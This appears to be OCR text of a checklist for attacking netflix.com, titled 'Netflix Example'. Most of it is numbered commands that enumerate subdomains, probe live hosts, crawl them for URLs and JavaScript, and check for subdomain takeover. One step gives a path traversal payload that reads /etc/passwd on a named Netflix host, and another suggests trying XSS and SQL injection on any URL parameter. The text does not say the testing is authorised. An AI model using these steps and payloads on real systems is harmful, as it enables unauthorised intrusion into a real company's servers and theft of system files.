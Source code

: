 Netflix Example - https://todayssolutionsinc.com/

Required tools: subfinder, assetfinder, httpx-toolkit, subzy, katana

1) prepare targets folder
   (mkdir ...)

2) sudo subfinder -d netflix.com -all > subdomain.txt
   (in first cmd)

3) sudo assetfinder -subs-only netflix.com > subdomain1.txt
   (in second cmd)

4) sort -u subdomain.txt subdomain1.txt > mainsubdomain.txt
   (in first cmd)

5) cat subdomain.txt | wc -l
   ---> watch all the subdomains
   (in first cmd)

6) cat mainsubdomain.txt | sudo httpx-toolkit > alive_subdomain.txt
   (in first cmd)

7) sudo subzy run --targets mainsubdomain.txt
   ---> go to number (15) for subdomain take over
   (in second cmd)

8) cat alive_subdomain.txt | sudo httpx-toolkit -sc > alive_domain_code.txt
   (in first cmd)

9) cat alive_domain_code.txt
   ---> try all 200, 301, 302
   (in first cmd)

10) sudo katana -u https://brand.netflix.com -jc -o allurls.txt
    ---> instead of this link try one from the alive_domain_code.txt
    ---> so you can find all javascript files
    (in first cmd)

11) sudo katana -u https://brand.netflix.com -o allurls.txt
    (in first cmd)

12) sudo katana -u alive_domain_code.txt -d 5 -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
    (in first cmd)

13) sudo katana -u https://sec-oc.netflix.com -d 5 -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
    ---> link from alive_domain_code.txt
    ---> open .png links and try /etc/passwd or path traversel (example: https://roomeo.netflix.com/img/../../../../../etc/passwd
    (in first cmd)

14) cat allurls.txt | grep "=*"
    ---> if you find this parameter "=" try xss and sql injection
    (in first cmd)

15) DOMAIN TAKE OVER
